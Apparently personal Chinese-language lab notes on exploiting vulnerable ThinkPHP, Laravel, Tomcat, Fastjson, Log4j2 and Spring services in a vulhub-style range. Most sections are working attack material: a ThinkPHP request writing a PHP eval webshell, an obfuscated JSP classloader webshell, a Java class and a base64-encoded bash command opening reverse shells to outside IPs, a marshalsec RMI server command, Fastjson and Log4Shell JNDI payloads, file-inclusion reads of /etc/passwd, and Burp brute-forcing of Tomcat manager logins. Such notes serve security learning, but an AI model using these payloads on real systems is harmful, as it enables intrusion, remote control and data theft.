|漏洞名称|漏洞原理||
| ----------------------------------------------------| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------| --|
|ThinkPHP5.0.23 Remote Code Execution Vulnerability|<span data-type="text" style="color: var(--b3-font-color8);">获取method的方法中没有正确处理方法名，</span>导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。||
|Laravel CVE-2021-3129|当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file\_get\_contents()和file\_put\_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。||

## [ThinkPHP](http://www.thinkphp.cn "官方网站")

### ThinkPHP5 5.0.23 Remote Code Execution Vulnerability

其5.0.23以前的版本中，<span data-type="text" style="color: var(--b3-font-color8);">获取method的方法中没有正确处理方法名，</span>导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

访问页面

​​

修改为POST   路径写为?s=captcha,,  多次BP尝试失败​

改用Heckbar发包。

​​

修改shell为如下，写入shell文件。

```bash
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST[cmd]) ?>' > shell.php
```

​​

### [ThinkPHP](http://www.thinkphp.cn "官方网站") V5.0.20

Thinkphp_tools工具

​​

目标存在tp5_file_include漏洞, payload:

```bash
 http://192.168.100.40:21939?s=index/\think\Lang/load&file=/etc/passwd
```

​​

目标存在tp5_dbinfo_leak漏洞, payload:

```bash
http://192.168.100.40:21939?s=index/think\config/get&name=database.hostname
```

hostname: 127.0.0.1, hostport: , database: , username: , password: root

​​

## Laravel CVE-2021-3129     拉日尔沃

Laravel是一套简洁、优雅的PHP Web开发框架(PHP Web Framework)

漏洞概述

编号：CVE-2021-3129

当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file\_get\_contents()和file\_put\_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

​​

​​

​​

## tomcat

docke里tomcat默认端口8080，映射时建议不要修改。86-->8080

### CVE-2017-12615

Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

​​

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

抓包获取到该tomcat的包，<span data-type="text" style="color: var(--b3-font-color9);">将GET改为PUT</span>，在请求体里写上shell。注意文件名格式、IP要写对：

linux: jsp/               winowds:jsp%20              jsp::\$DATA

​​

访问成功，200。

​​

​​

### CVE-2020-1938

Tomcat默认开启AJP服务（8009端口），存在一处文件包含缺陷。攻击者可以通过构造的恶意请求包来进行文件包含操作，从而读取或包含Tomcat上所有webapp目录下的任意文件，如：webapp配置文件或源代码等。

tomcat默认的conf/server.xml中配置了2个Connector，一个为8080的对外提供的HTTP协议端口，另外一个就是默认的8009 AJP协议端口，两个端口默认均监听在外网ip。

​​

```jsp

C:\Users\Anonymous\Desktop>python2 CVE-2020-1938.py 47.113.187.190 -p 8009 -f /WEB-INF/web.xml
Getting resource at ajp13://47.113.187.190:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

### tomcat8远程部署漏洞

Tomcat manager登录界面存在弱口令漏洞，登录成功后有上传点，压缩包xxx.war的.war不会被解析，直接访问xxx/里面的一句话路径，可直接拿到shell

​​

1. 访问tomcat Mannger App  ，密码是弱口令<span data-type="text" style="color: var(--b3-font-color9);">tomcat/tomcat</span>进入，不是需要爆破密码。

    但，咱学习下如何爆破，输入密码抓包

    ​​

    使用 Intruder 模块添加变量，选择爆破方式。

    ​​

    Payload 选择 `Custom iterator`​

    ​​

    3段拼凑，设置 Payload 1 的值为 `tomcat`​，即用户名。

    ​​

    设置 Payload 2 的值为 `:`​，即分隔符。

    ​​

    设置 Payload 3 的值为需要爆破的密码。咱添加几个做测试。

    ​​

    添加 Payload Processing，选择为 Base64 编码。

    ​​

    取消勾选 URL 编码。

    ​​

    开始爆破。

    ​​

    将返回状态`200`​的 Payload 解码，得到密码。

    ​​

    成功登录后，在 Manager 页面上传 war 包即可直接 getshell 。
2. 找到上传点，上传带有一句话jsp文件的名为xxx.war的包。

    1.java环境配置

    2.创建包含shell的jsp  war

    ​​

    3.上传文件

    ​​
3. 访问 攻击ip地址/xxx/jsp文件路径，再用webshell连接工具进行连接。

    查看是否上传成功

    ​​

    连接Ant

    ​​

## fastjson

一个java库，将java对象转换为json类型字符串。

### Fastjson反序列化漏洞

#### 利用流程

1. 首先开启HTTP服务器，并将恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者<span data-type="text" style="color: var(--b3-font-color9);">控制URL参数</span>为上一步开启的恶意<span data-type="text" style="color: var(--b3-font-color9);">RMI服务器地址</span>
4. 恶意RMl服务器返回ReferenceWrapper类
5. 目标(JNDI Client)在执行lookup操作的时候，在decodeObjecti中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类(即远程加载我们HTTP服务器上的恶意类)，在<span data-type="text" style="color: var(--b3-font-color9);">实例化</span>时触发静态代码片段中的恶意代码.

​​

#### 实验环境

靶场vulhub：47.113.187.190:8090  centos7 docker-compose

rmi服务器：111.67.195.253:9000  centos7  jdk1.8.0_151

恶意站点：47.113.187.190:90  httpf服务

环境最少需要三方：1.攻击方(burpsuite抓包攻击)    2.提供服务方http and rmi    4.被攻击方 靶场 vulhub

#### 具体步骤

1. ##### Linux centos7 java环境配置

    1.1   jdk安装     华为源下载   [repo.huaweicloud.com/java/jdk/](https://repo.huaweicloud.com/java/jdk/)    jdk1.8.0_151  

      将压缩包下载到      /usr/local/java    里解压      tar -zvxf  
    ​

    1.2   配置环境变量

    vi /etc/profile     在这个文件里添加配置如下，注意路径对应，保存。

    ```python
    JAVA_HOME=/usr/local/java/jdk1.8.0_151
    PATH=$JAVA_HOME/bin:$PATH
    CLASSPATH=.:$JAVA_HOME/jre/lib/ext:$JAVA_HOME/lib/tools.jar
    export PATH JAVA_HOME CLASSPATH
    ```

    1.3  执行以下命令重新加载配置文件。

    ```python
    source /etc/profile
    ```

    1.4   检验配置是否生效    java -version

    ​​

    <span data-type="text" style="color: var(--b3-font-color9);">1.5  坑： java -version 总是报错，但配置又没有问题，直接重新下载jdk重新来一遍。。。。</span>

2. ##### 创建恶意类

    2.1   GetShell.java   注意修改ip和端口为接收反弹shell的主机及端口。

    <span data-type="text" style="color: var(--b3-font-color9);">坑：文件里public class GetShell的类名应该与文件名一致。否则编译时候会报错。</span>

    ```python
    import java.io.BufferedReader; 
    import java.io.InputStream; 
    import java.io.InputStreamReader;
     public class GetShell1{ 
    public GetShell1() throws Exception { 
    Process p = Runtime.getRuntime().exec(new String[]{
    "/bin/bash","-c","exec 5<>/dev/tcp/47.113.187.190/9000;cat <&5 | while read line; do $line 2>&5 >&5; done"
    });
     InputStream is = p.getInputStream();
    BufferedReader reader = new BufferedReader(new InputStreamReader(is)); 
    String line; while((line = reader.readLine()) != null) { 
    System.out.println(line); 
    } 
    p.waitFor(); 
    is.close(); 
    reader.close(); 
    p.destroy(); 
    } 
    public static void main(String[] args) throws Exception { 
    } 
    }
    ```

    2.2编译：   javac GetShell.java  ==>  GetShell.class

    ​​

    2.3   开启HTTP服务  这里我直接丢到之前我网站的web根目录下了，访问直接下载。

    ​​

    也可以用  python -m http.server 90   在本机当前目录下开启。需要python环境。
3. ##### 开启RMI服务

    执行目录下需要有 <span data-type="text" style="color: var(--b3-font-color9);">marshalsec-0.0.3-SNAPSHOT-all.jar </span>，ip地址为第二步恶意类的http服务地址#后面跟上编译后的类名。  9000为RMI服务端口。

    ```python
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://47.113.187.190:90/#GetShell" 9000
    ```

    ​​
4. ##### 反弹shell端口监听

    此处监听的主机和端口要和   创建恶意类 GetShell.java 中所写的一直。

    ​​

    <span data-type="text" style="color: var(--b3-font-color9);">坑：shell可以反弹了这里好像不容易看出，建议输入shell看能不能出来。</span>
5. ##### Burpsuite抓包请求

    <span data-type="text" style="color: var(--b3-font-color9);">坑：请求包建议复制粘贴全换，然后改ip。payload来源</span>：[https://vulhub.org/#/environments/fastjson/1.2.24-rce/](https://vulhub.org/#/environments/fastjson/1.2.24-rce/)   `rmi://111.67.196.133:9000/GetShell1`​为启动了RMI服务的主机和端口，GetShell 为恶意类名。前后要一致。

    ```python
    POST / HTTP/1.1
    Host: 47.113.187.190:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 164

    {
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"rmi://111.67.196.133:9000/GetShell1",
            "autoCommit":true
        }
    }
    ```

    发送后，RMI服务器响应。

    ​​

    getshell

    ​​

# Apache Log4j2 查找功能 JNDI 注入 （CVE-2021-44228）

### 使用dnslog回显

1. 查看服务是否正常启动​​

2. [http://47.113.187.190:8983/solr/admin/cores?action=1](http://47.113.187.190:8983/solr/admin/cores?action=1)  将路径写到这里再进行抓包。​​
3. ​​

    ```python
    GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.7de9cdad.log.dnslog.biz.} HTTP/1.1
    Host: 47.113.187.190:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

    ```

4. ​​​​

# Spring Cloud Function SpEL 代码注入 （CVE-2022-22963）

请求标头中有 SpEL 表达式注入。`spring.cloud.function.routing-expression`​

```python
POST /functionRouter HTTP/1.1    #这里要修改
Host: 47.113.187.190:8000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Upgrade-Insecure-Requests: 1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMTMuMTg3LjE5MC85MDAwIDA+JjE=}|{base64,-d}|{bash,-i}")
Content-Type: text/plain   #添加语句
Content-Length: 4

test
```

修改后发送

​​

上方getshell的代码可来源此

​​

shell监听9000返回。

​​

# Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

1. 安装靶场环境

    ​​
2. 访问漏洞所在页面

    http://47.113.187.190:22375/users    就是users路径下

    ​​
3. 在该页面burpsuite抓包，因为有cookie所以不能直接粘贴整个请求包哦，，只需要把请求体内容替换即可。

    ```python
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
    ```

    ​​

4. 在docker的/tmp目录下查看是否执行了命令，生成一个success文件。

    docker exec -it a83bfec6f1a1 /bin/bash

    ​​
